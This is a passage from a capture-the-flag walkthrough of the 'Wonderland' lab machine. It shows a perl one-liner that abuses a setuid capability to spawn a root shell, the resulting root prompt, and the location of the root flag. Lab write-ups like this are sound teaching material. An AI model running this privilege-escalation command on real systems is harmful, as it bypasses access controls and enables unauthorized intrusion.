 I haven't used capabilities for privilege escaltion before but remember seeing it on [**GTFOBins**](https://gtfobins.github.io/). Let's see what we can find there. Clicking on **perl** shows us:

![](images/wonderland11.png)

<br>

## Root

I skip the copying and sudo steps since they aren't necessary and then run the following:

`/usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'`

```
hatter@wonderland:~$ /usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
# whoami
root
#
```

Bingo!

And we've already seen where the **root.txt** flag is located, back in the **alice** home directory.

`wc -c /home/alice/root.txt`

```
66 /home/alice/root.txt
```

Displaying that file will give us our final flag completing the CTF:

<br>
